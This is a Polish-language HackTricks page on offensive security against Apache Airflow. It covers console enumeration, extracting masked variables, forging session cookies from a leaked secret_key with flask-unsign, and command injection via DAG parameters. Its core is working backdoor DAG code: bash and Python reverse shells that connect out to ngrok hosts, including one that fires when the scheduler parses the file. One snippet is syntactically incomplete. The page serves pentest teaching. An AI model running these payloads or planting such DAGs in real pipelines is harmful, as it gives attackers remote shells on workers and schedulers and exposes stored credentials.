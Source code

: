 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Podstawowe informacje

[**Apache Airflow**](https://airflow.apache.org) służy jako platforma do **orkiestrowania i planowania potoków danych lub przepływów pracy**. Termin "orkiestracja" w kontekście potoków danych oznacza proces aranżowania, koordynowania i zarządzania złożonymi przepływami danych pochodzącymi z różnych źródeł. Głównym celem tych orkiestrujących potoków danych jest dostarczenie przetworzonych i nadających się do użycia zbiorów danych. Zbiory te są szeroko wykorzystywane przez wiele aplikacji, w tym, ale nie tylko, narzędzia do analizy biznesowej, modele nauki o danych i uczenia maszynowego, które są podstawą funkcjonowania aplikacji big data.

W zasadzie Apache Airflow pozwoli Ci **zaplanować wykonanie kodu, gdy coś** (zdarzenie, cron) **się wydarzy**.

### Lokalna laboratoria

#### Docker-Compose

Możesz użyć **pliku konfiguracyjnego docker-compose z** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml), aby uruchomić kompletną środowisko docker apache airflow. (Jeśli jesteś na MacOS, upewnij się, że przydzielisz co najmniej 6 GB RAM dla VM docker).

#### Minikube

Jednym z łatwych sposobów na **uruchomienie apache airflow** jest uruchomienie go **z minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Konfiguracja Airflow

Airflow może przechowywać **wrażliwe informacje** w swojej konfiguracji lub możesz znaleźć słabe konfiguracje:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Zanim zaczniesz atakować Airflow, powinieneś zrozumieć **jak działają uprawnienia**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataki

#### Enumeracja konsoli internetowej

Jeśli masz **dostęp do konsoli internetowej**, możesz uzyskać dostęp do niektórych lub wszystkich następujących informacji:

* **Zmienne** (Własne wrażliwe informacje mogą być tutaj przechowywane)
* **Połączenia** (Własne wrażliwe informacje mogą być tutaj przechowywane)
* Uzyskaj do nich dostęp w `http://<airflow>/connection/list/`
* [**Konfiguracja**](./#airflow-configuration) (Wrażliwe informacje, takie jak **`secret_key`** i hasła mogą być tutaj przechowywane)
* Lista **użytkowników i ról**
* **Kod każdego DAG** (który może zawierać interesujące informacje)

#### Pobieranie wartości zmiennych

Zmienne mogą być przechowywane w Airflow, aby **DAG** mogły **uzyskiwać** ich wartości. Jest to podobne do sekretów innych platform. Jeśli masz **wystarczające uprawnienia**, możesz uzyskać do nich dostęp w GUI w `http://<airflow>/variable/list/`.\
Airflow domyślnie pokaże wartość zmiennej w GUI, jednak zgodnie z [**tym**](https://marclamberti.com/blog/variables-with-apache-airflow/) możliwe jest ustawienie **listy zmiennych**, których **wartość** będzie wyświetlana jako **gwiazdki** w **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Jednak te **wartości** mogą być nadal **pobrane** za pomocą **CLI** (musisz mieć dostęp do bazy danych), **wykonywania dowolnego DAG**, **API** uzyskującego dostęp do punktu końcowego zmiennych (API musi być aktywowane) i **nawet samego GUI!**\
Aby uzyskać dostęp do tych wartości z GUI, po prostu **wybierz zmienne**, do których chcesz uzyskać dostęp i **kliknij na Akcje -> Eksportuj**.\
Innym sposobem jest przeprowadzenie **bruteforce** na **ukrytej wartości** za pomocą **filtrowania wyszukiwania**, aż ją uzyskasz:

![](<../../.gitbook/assets/image (152).png>)

#### Eskalacja uprawnień

Jeśli konfiguracja **`expose_config`** jest ustawiona na **True**, z **rolą Użytkownika** i **wyżej** można **czytać** **konfigurację w sieci**. W tej konfiguracji pojawia się **`secret_key`**, co oznacza, że każdy użytkownik z tym ważnym kluczem może **utworzyć własny podpisany cookie, aby podszyć się pod inne konto użytkownika**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE w Airflow worker)

Jeśli masz **uprawnienia do zapisu** w miejscu, gdzie **DAGi są zapisywane**, możesz po prostu **stworzyć jeden**, który wyśle ci **reverse shell.**\
Zauważ, że ten reverse shell będzie wykonywany wewnątrz **kontenera airflow worker:**
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE w harmonogramie Airflow)

Jeśli ustawisz coś do **wykonania w katalogu głównym kodu**, w momencie pisania tego tekstu, zostanie to **wykonane przez harmonogram** po kilku sekundach od umieszczenia go w folderze DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Tworzenie DAG

Jeśli uda ci się **skompromentować maszynę w klastrze DAG**, możesz stworzyć nowe **skrypty DAG** w folderze `dags/`, a one będą **replikowane w pozostałych maszynach** w klastrze DAG.

#### Wstrzykiwanie kodu DAG

Kiedy wykonujesz DAG z GUI, możesz **przekazać argumenty** do niego.\
Dlatego, jeśli DAG nie jest odpowiednio zakodowany, może być **vulnerable to Command Injection.**\
To właśnie wydarzyło się w tym CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Wszystko, co musisz wiedzieć, aby **zacząć szukać wstrzyknięć poleceń w DAGach**, to że **parametry** są **dostępne** za pomocą kodu **`dag_run.conf.get("param_name")`**.

Ponadto, ta sama podatność może wystąpić z **zmiennymi** (zauważ, że przy wystarczających uprawnieniach możesz **kontrolować wartość zmiennych** w GUI). Zmienne są **dostępne za pomocą**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Jeśli są używane na przykład wewnątrz polecenia bash, możesz wykonać wstrzyknięcie polecenia.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
